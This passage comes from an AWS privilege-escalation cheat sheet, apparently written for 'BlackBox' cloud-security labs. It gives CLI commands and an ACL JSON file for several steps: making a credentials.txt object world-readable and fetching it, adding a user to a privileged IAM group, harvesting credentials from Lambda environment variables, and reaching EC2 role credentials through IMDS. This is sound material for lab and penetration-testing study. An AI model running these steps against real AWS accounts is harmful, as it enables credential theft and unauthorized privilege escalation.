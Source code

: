         aws sts assume-role --role-arn <role_to_assume_arn> --role-session-name <session_name> --profile <current_profile_name>
        # Then configure a new profile with these temporary credentials.
        ```
* **IAM `iam:PutObjectAcl` on S3 to Read Sensitive Files ("BlackBox I"):**
    If a bucket policy allows `AWS: *` principal to `s3:PutObjectAcl` and `s3:GetObjectAcl` on objects (`*`), but `s3:GetObject` is denied for you initially:
    1.  Identify the target object (e.g., `credentials.txt`).
    2.  Create an ACL JSON file granting `AllUsers` `FULL_CONTROL` (or `READ`):
        ```json
        // acl_policy.json
        {
          "Owner": {
            "DisplayName": "<bucket_owner_display_name>", // Get from get-bucket-acl
            "ID": "<bucket_owner_canonical_id>" // Get from get-bucket-acl
          },
          "Grants": [
            {
              "Grantee": {
                "URI": "[http://acs.amazonaws.com/groups/global/AllUsers](http://acs.amazonaws.com/groups/global/AllUsers)",
                "Type": "Group"
              },
              "Permission": "READ" // Or FULL_CONTROL
            }
          ]
        }
        ```
    3.  Apply the ACL:
        `aws s3api put-object-acl --bucket $BlackBoxBucket --key credentials.txt --access-control-policy file://acl_policy.json --profile <profile_name>`
    4.  Access the object: `curl https://$BlackBoxBucket.s3.amazonaws.com/credentials.txt`.
* **IAM `iam:AddUserToGroup` ("BlackBox I"):**
    If the user has `iam:AddUserToGroup` permission:
    1.  List available groups: `aws iam list-groups --profile <profile_name>`.
    2.  Identify a group with higher privileges.
    3.  Add the current user to that group:
        `aws iam add-user-to-group --group-name <group_name> --user-name <user_name_to_add> --profile <profile_name>`.
* **EC2 Instance Profile Abuse:** If an EC2 instance has an overly permissive instance profile, compromising the EC2 instance gives access to those permissions (via IMDS).
* **Lambda Execution Role Abuse:** Compromising a Lambda or its code could lead to abusing its role.
* **Exploiting Lambda Environment Variables for Credentials ("BlackBox I"):**
    If Lambda functions listable by your user contain credentials (ID, KEY) in environment variables, decode them (e.g., Base64) and configure a new profile with these credentials.
* **SSRF to IMDS to get EC2 Role Credentials ("BlackBox III").**
* **RCE on EC2 to get Instance Role Credentials ("BlackBox III").**

---